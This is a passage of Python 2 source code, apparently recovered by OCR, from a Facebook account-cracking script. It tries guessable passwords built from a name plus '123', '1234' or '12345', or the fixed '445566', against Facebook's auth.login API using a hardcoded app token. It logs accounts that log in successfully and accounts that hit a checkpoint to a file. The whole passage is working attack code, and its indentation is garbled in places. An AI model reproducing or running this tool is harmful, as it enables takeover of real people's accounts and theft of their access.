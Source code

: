 				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print "[CP] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = c+"123"
					data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q:
						print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print "[CP] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
					pass3 = c+"1234"
					data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q:
						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
						oks.append(user+pass3)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print "[CP] " + user + " | " + pass3
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass3+"\n")
							cps.close()
							cpb.append(user+pass3)
						else:
                          pass4 = c + "12345"
							data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if "access_token" in q:
								print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass4
								oks.append(user+pass4)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print "[CP] " + user + " | " + pass4
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass4+"\n")
									cps.close()
									cpb.append(user+pass4)
								else:
									pass5 = "445566"
									data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if "access_token" in q:
										print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass5